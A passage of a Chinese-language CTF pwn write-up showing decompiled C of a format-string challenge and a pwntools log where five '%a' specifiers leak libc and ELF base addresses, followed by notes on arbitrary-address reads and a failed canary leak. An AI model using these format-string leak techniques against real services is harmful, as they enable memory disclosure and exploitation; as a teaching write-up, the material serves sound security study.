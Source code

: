 那能想到的是应该要反弹`shell`了

首先是format_string函数这里，后面加了一大堆的参数，普通的`%x`,`%p`肯定不行了

但是这里可以`%a`泄露，orz

原先还做过`BCTF2018` 的`hardcore_fmt`,转头忘光光

```c
unsigned __int64 format_string()
{
  __int64 v1; // [rsp+2Ch] [rbp-20h]
  __int64 v2; // [rsp+34h] [rbp-18h]
  unsigned __int64 v3; // [rsp+44h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  v1 = 0LL;
  v2 = 0LL;
  puts("fmt:");
  __read_chk(0LL, (__int64)&v1, 0xALL, 10LL);
  __printf_chk(
    1LL,
    &v1,
    0xDEADBEEFDEADBEEFLL,
    0xFACEB00CFACEB00CLL,
    0xFEE1DEADFEE1DEADLL,
    0xC0FFEEC0FFEELL,
    0x6666666666666666LL,
    0xDEADBEEFDEADBEEFLL,
    0xDEADBEEFDEADBEEFLL,
    0xDEADBEEFDEADBEEFLL,
    0xDEADBEEFDEADBEEFLL,
    0xDEADBEEFDEADBEEFLL);
  return __readfsqword(0x28u) ^ v3;
}

```
输入5个`%a`后可以泄露出 `libc`和`elf`的基址

```shell
	b'10. exit\n'
	b'>\n'
[DEBUG] Sent 0x2 bytes:
    b'5\n'
[DEBUG] Received 0x5 bytes:
    b'fmt:\n'
[DEBUG] Sent 0xa bytes:
    b'%a%a%a%a%a'
[DEBUG] Received 0x73 bytes:
    b'0x0.0000000000d68p-10220x0.07fb17d9e07e3p-10220x0.0000000000004p-10220x0.000000000000ap-10220x0.055884eb62019p-1022'
```
泄露完后现在可以用程序的`write`函数进行任意地址泄露

那泄露哪里呢，我原先想泄露栈地址，然后再靠着栈地址泄露出`canary`，这样程序的`stack_overflow`函数就**~~能用~~**了，结果是`canary`就有`\x00`截断，而程序的`stack_overflow`函数用的是`strcpy`
